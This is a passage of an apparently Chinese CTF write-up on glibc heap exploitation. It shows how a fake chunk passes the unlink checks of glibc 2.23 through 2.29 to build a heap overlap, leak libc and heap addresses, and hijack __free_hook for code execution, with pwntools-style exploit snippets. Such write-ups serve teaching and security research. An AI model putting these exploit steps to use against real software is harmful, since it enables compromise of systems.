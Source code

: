 1. 对于`2.29`新增的保护`__glibc_unlikely (chunksize(p) != prevsize)`，取出`Chunk 5`的`prev_size`为`0xE0`，然后`p = p - 0xE0`，恰好移动到了`fake_chunk`处，它的`size`恰好为`0xE0`，保护通过。
1. 对于`2.27`新增的保护`chunksize (p) != prev_size (next_chunk (p))`，根据`0xE0`找到`next_chunk`为`Chunk 5`，验证`Chunk 5`的`prev_size`与`fake_chunk`的`size`相等，均为`0xE0`，保护通过。
1. 对于`2.23`就已经存在的保护`__builtin_expect (fd-&gt;bk != p || bk-&gt;fd != p, 0)`，`fake_chunk -&gt; fd`指向`Chunk 3`，之前已伪造`Chunk 3 -&gt; bk = Chunk 0 + 0x10 = fake_chunk`，`fake_chunk -&gt; bk`指向`Chunk 0`，之前已伪造`Chunk 0 -&gt; fd = Chunk 0 + 0x10 = fake_chunk`，保护通过。
```
delete(sh, 79)
```

至此，我们已经成功的构造了`Heap Overlap`。

但是正如我们所见，我们必须保证`heap`地址是`0x????????????0???`，那么，我们的成功率只有`1/16`。

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%E4%BF%A1%E6%81%AF"></a>泄露信息

接下来我们进行信息泄露，我们申请一个`0x18`大小的`Chunk`，将`libc`地址推到`chunk 1`的位置,直接查看`chunk 1`的内容即可获取`libc`基址。

```
#Leak info
creat(sh, 0x18 , 'n')
show(sh,79)
libc.address = get_address(sh=sh,info='LIBC_ADDRESS --&gt; ',start_string='',end_string='n',offset=0x7f30e85f4000-0x7f30e87d8ca0)
```

然后我们继续泄露堆地址，首先申请一个`0x38`大小的`chunk`，现在我们拥有两个指向`chunk 1`位置的指针，首先选取之前为了清理`bin`而申请的一个`0x38`大小的`chunk`，释放，然后释放一次`chunk 1`，使用另一个指针直接查看`chunk 1`的内容即可获取`heap`基址。

```
creat(sh, 0x38 , 'n')
delete(sh, 18)
delete(sh, 81)
show(sh,79)
heap_address = get__address(sh=sh,info='HEAP_ADDRESS --&gt; ',start_string='',end_string='n',offset=-0x1270)
```

#### 劫持`__free_hook`，控制执行流(RIP)

首先申请一个`0x18`大小的`Chunk`，那个`Chunk`将位于`Chunk 1 + 0x10`，然后将其释放，再将之前申请的`Chunk 1`释放再取回，现在，我们可以操纵位于`Chunk 1 + 0x10`的所有域，于是我们达成任意地址读写，借助`__free_hook`可以直接升级为任意代码跳转。

```
creat(sh, 0x18 , 'n')
delete(sh, 18)
delete(sh, 76)
creat(sh, 0x28, p64(0) + p64(0x31)  + p64(libc.symbols['__free_hook']))
creat(sh, 0x18 , 'n')
creat(sh, 0x18 , p64(0xDEADBEEF))
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-154803.png)
